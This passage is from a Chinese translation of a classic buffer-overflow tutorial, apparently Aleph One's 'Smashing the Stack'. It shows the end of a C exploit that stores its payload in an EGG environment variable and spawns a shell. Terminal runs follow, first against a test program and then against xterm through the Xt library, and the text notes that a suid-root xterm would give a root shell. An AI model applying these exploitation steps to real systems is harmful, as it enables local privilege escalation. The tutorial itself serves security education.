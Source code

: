 ```c
    
	buff[bsize - 1] = '\0';
    
	memcpy(buff,"EGG=",4);
    putenv(buff);
    system("/bin/bash");
}
```

缓冲区大小的一个好选择是比我们试图溢出的缓冲区大小多大约100字节。这将把我们的代码放在我们试图溢出的缓冲区的末尾，为nop提供大量的空间，但是仍然用我们猜测的地址覆盖返回地址。我们试图溢出的缓冲区是512字节长，所以我们将使用612。让我们尝试用新的漏洞溢出测试程序：

```sh
[aleph1]$ ./exploit3 612 
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG 
$
```

哇！第一次尝试就成功了！这一变化使我们的机会增加了一百倍。现在让我们在一个缓冲区溢出的真实案例中尝试一下。我们将使用Xt库上的缓冲区溢出进行演示。对于我们的示例，我们将使用xterm（所有与Xt库链接的程序都是易受攻击的）。您必须运行X服务器并允许从本地主机连接到它，请据此设置显示变量。

> xterm 是一个 X Window System上的终端模拟器，类似现在的XShell
>
> 

```sh
[aleph1]$ export DISPLAY=:0.0 
[aleph1]$ ./exploit3 1124 
Using address: 0xbffffdb4 
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
^C 
[aleph1]$ exit 
[aleph1]$ ./exploit3 2148 100 Using address: 0xbffffd48 
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG

.... 
Warning: some arguments in previous message were lost Illegal instruction 
[aleph1]$ exit 
. 
. 
. 
[aleph1]$ ./exploit4 2148 600 
Using address: 0xbffffb54 
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG 
Warning: some arguments in previous message were lost 
bash$
```



Eureka！不到十几次尝试，我们发现了这个神奇的数字。如果xterm是以suid root安装的，那么它现在就是一个有root权限的shell了！



### Small Buffer Overflows
